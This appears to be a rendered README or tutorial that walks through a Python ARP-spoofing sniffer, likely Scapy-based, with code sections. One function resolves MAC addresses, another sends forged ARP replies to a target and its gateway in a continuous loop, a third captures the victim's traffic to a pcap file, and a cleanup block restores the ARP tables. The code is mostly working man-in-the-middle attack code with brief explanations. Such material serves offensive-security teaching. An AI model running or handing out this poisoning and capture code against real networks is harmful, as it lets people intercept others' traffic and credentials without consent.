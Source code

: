 
### **🔹 Function: Get MAC Address**  
```python
def get_mac(ip_address):
    responses, unanswered = kam.srp(kam.Ether(dst="ff:ff:ff:ff:ff:ff") / kam.ARP(pdst=ip_address), timeout=2, retry=10)
    for s, r in responses:
        return r[kam.Ether].src
    return None
```
- Sends an **ARP request** to the target and retrieves its **MAC address**.  

---

### **🔹 Function: ARP Poisoning**  
```python
def poison_target(gateway_ip, gateway_mac, target_ip, target_mac):
    global poisoning

    poison_tgt = kam.ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst=target_mac)
    poison_gateway = kam.ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst=gateway_mac)

    print("[*] Beginning the ARP poison. [CTRL-C to stop]")

    while poisoning:
        send(poison_tgt)
        send(poison_gateway)
        time.sleep(2)

    print("[*] ARP poison attack finished")
```
- **Sends fake ARP replies** to both target and gateway, forcing traffic through the attacker's machine.  
- Runs in a **continuous loop** until the user stops it.  

---

### **🔹 Sniffing Network Traffic**  
```python
print(f"[*] Starting sniffer for {packet_count} packets")
bpf_filter = f"ip host {tgt_ip}"
packets = kam.sniff(count=packet_count, filter=bpf_filter, iface=interface)
print(f"[*] Writing packets to arper.pcap")
kam.wrpcap("arper.pcap", packets)
```
- Uses `kam.sniff()` to **capture network traffic** from the target.  
- Saves captured packets to a **PCAP file** (`arper.pcap`) for further analysis.  

---

### **🔹 Cleanup & Exit**  
```python
finally:
    poisoning = False
    time.sleep(2)
    restore_target(tgt_gateway, tgt_gateway_mac, tgt_ip, tgt_mac)
sys.exit()
```
- **Stops ARP poisoning** and **restores the network** before exiting.  

---